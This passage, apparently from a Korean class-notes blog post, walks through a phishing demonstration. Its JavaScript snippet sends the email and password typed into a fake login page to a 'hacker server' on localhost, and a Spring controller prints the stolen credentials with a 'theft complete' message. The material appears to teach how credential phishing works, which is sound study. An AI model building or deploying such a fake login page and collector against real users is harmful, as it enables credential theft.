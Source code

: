 4. 사용자가 fake.html에서 로그인 정보를 입력하도록 유도

5. 가짜 로그인 페이지는 실제 로그인 페이지처럼 보이며, 사용자가 입력한 `email` 및 `password`를 해커 서버로 전송

```js
document.getElementById("loginBtn").addEventListener("click", async () => {  
    const email = document.getElementById("email").value;
    const pwd = document.getElementById("pwd").value;
    let response = await fetch("http://localhost:9999/login", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({ email, pwd }),
    });
});
```

6. 해커 서버(`MemberController.java`)에서 사용자의 로그인 정보를 탈취:
```java
@PostMapping("login")
public void login(@RequestBody Member m) {
    System.out.println(m);
    System.out.println("탈취 완료");
}
```
<img src="/assets/post/2025/ureca/day30_class_8.png" alt='' width=1300px>

---

## END